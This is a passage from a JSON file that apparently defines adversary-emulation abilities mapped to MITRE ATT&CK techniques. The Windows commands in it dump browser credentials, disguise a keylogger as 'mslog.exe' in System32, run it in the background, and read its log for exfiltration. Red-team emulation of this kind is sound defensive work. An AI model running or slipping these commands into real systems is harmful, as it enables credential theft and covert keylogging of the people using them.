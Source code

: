 ```json
      "commands": {
        "cmd": "C:\\Windows\\System32\\oradump.exe 2>&1\n"
      },
      "privilege": "Unknown",
      "tactic": "credential-access",
      "technique": "Credentials from Password Stores: Credentials from Web Browsers",
      "attack_id": "T1555.003"
    },
    {
      "ability_id": "ccbb3c07-dc04-46f5-83d3-54fe71deab3c",
      "platform": "windows",
      "commands": {
        "cmd": "move .\\keylogger.exe C:\\Windows\\System32\\mslog.exe\n"
      },
      "privilege": "Unknown",
      "tactic": "command-and-control",
      "technique": "Ingress Tool Transfer",
      "attack_id": "T1105"
    },
    {
      "ability_id": "1d317399-d786-4c58-889f-01cf496ba5d2",
      "platform": "windows",
      "commands": {
        "proc": "exec-background cmd.exe /k \"C:\\Windows\\System32\\mslog.exe -o C:\\Windows\\System32\\mslog.txt\"\n"
      },
      "privilege": "Unknown",
      "tactic": "credential-access",
      "technique": "Input Capture: Keylogging",
      "attack_id": "T1056.001"
    },
    {
      "ability_id": "e895decc-93fa-42bb-8609-3a62d14fcb60",
      "platform": "linux",
      "commands": {
        "sh": "sleep 30\n"
      },
      "privilege": "Unknown",
      "tactic": "credential-access",
      "technique": "Input Capture: Keylogging",
      "attack_id": "T1056.001"
    },
    {
      "ability_id": "5c034afc-1f10-4e92-8d77-afed302d7de5",
      "platform": "windows",
      "commands": {
        "cmd": "dir C:\\Windows\\System32\\mslog.txt\n"
      },
      "privilege": "Unknown",
      "tactic": "credential-access",
      "technique": "Input Capture: Keylogging",
      "attack_id": "T1056.001"
    },
    {
      "ability_id": "854c63de-cc94-4581-81b0-4c2292123898",
      "platform": "windows",
      "commands": {
        "cmd": "type C:\\Windows\\System32\\mslog.txt\n"
      },
      "privilege": "Unknown",
      "tactic": "exfiltration",
      "technique": "Exfiltration Over C2 Channel",
      "attack_id": "T1041"
```